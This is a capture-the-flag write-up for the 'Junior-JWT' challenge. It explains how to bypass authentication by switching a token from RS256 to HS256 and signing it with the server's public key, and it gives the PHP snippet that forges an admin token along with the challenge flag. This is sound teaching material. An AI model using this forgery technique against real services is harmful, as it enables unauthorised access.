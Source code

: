 # Junior-JWT

## Description

Just one of [them](http://junior-jwt.peykar.io)!

## Files provided

A zip file containing a PHP page source code. (You can see extracted files in [source](source/) folder in the repo)

## TL;DR

We should change the algorithm to `HS256` and change the role value in jwt to `admin` and sign it with the given public key.

## Writeup

Looking at the source code, we see a class called `JWT` that provides `encode` and `decode` methods and also some helper functions for URL decoding.

Also there is a `main` function that runs on startup. It creates `jwt` cookie with `role: guest` if it's not present.
if The cookie is present it checks the `role` attribute, if the role is equal to `admin` it shows the flag, otherwise it shows the source code.

So we should find a way to modify role value to `admin` in the jwt cookie but we don't have the jwt secret key. So we should go for potential bugs in the jwt methods.

There can be several famous [bugs](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) in jwt custom libraries. The first bug I tried was the `none algorithm`. But at line 40 the decode function checks for the none algorithm, So this is not the solution.

As we see in `main` function, the jwt is signed with `RS256` algorithm by default. RSA uses public and private key (Asymmetric). The JWT is signed using private key and verified using public key. We can see the public key in the source code but we need the private key for signing our modified jwt.

### The Idea

If we could find a way that server verifies the jwt using the same key that jwt is signed with, we could easily change the role field and sign our jwt using the public key.

In `HS256` algorithm, that is a symmetric algorithm, the jwt should be signed and verified using the same secret key. So, if we change the jwt algorithm to `HS256`, change the `role` value to `admin` and sign it with the public key, the server will also verify the jwt using public key.

## Solution

For creating the payload, we can use the website's source code.

We should just change the main function as below (changing role to `admin` and changing `RS256` to `HS256`):

```
function main()
{

    $publikKey  = '-----BEGIN PUBLIC KEY-----
MIICIjANBgkqhkiG9w0BAQEFAAOCAg8AMIICCgKCAgEApPRW0nXMoQyN8GzVCHaW
nWyq00omHh/o7AXEJvbpVBk5HTWLt+Zdj1aK1JFWU5lPeMSoXkf7WJiqoGgwVblX
Rq2dSIIaNBFSjomS1Mcw1Tyx+q9Y6CPJGdwAMEMH5uKhGkgV9OrFQcHoozLAvzFl
BneqmTO9+V1FKEuHWHItvdP1em7UiUnZ7JXb13L4IbZVGPNgDVf0GoButIlVo1+T
pMZcBHNV0ndGZg0e6qTCp5m9yMWcH697Rt2FRN4fgJpYBknBs8UrAeCczRkk6037
N+c4IM+St6KZNqg+4ZlRZC+V9zOBSTkrXXN/CXRUiIQMgmyit5zbEpN8PUY6VPzk
zVI9FbkB0nb+Dp04VPRWeeV1IKPZk2DuSOALh9ZacbEQ8Spuua6nxZ5gCSve7TL7
r9xg8ml5zZXAw7l8WoHkyy2ocPy0OL+PWFvUar59epfPUQZmRE08yVrlvy+WXFC2
dbFxD80tPgbcjJbKRGGv1uOx/3Z2HrXHoOslVmV87rgWfxBaJjrSsSY1fKLYJLnk
FKJd6eSLDYzTAczbMiov8F9ovMw4/juWZy2s4QOCdXp7byKOuQUJ+HSiZiNiyjTk
XaA5oGEF/FIxAMRbaEd/YSsE7ASMxS4mhyIAGFvqK8YZ+xqEAbNlT4zK+dAAC3mL
I/VyHBAlgHRxEiRE860DhfcCAwEAAQ==
-----END PUBLIC KEY-----';

    $issuedAt = new DateTimeImmutable();
    $data = [
        "role" => "admin",
        "iat" => $issuedAt->getTimestamp(),
        "nbf" => $issuedAt->getTimestamp()
    ];

    $token = JWT::encode($data, $publikKey, 'HS256');

    echo $token;

}

```

It will print the the JWT payload that we should put in `jwt` cookie and request `GET /` to get the flag.

## Flag

`S4CTF{7h3r3__iS_s733L_a_bUnch3__0u7_th3r3!!!}`
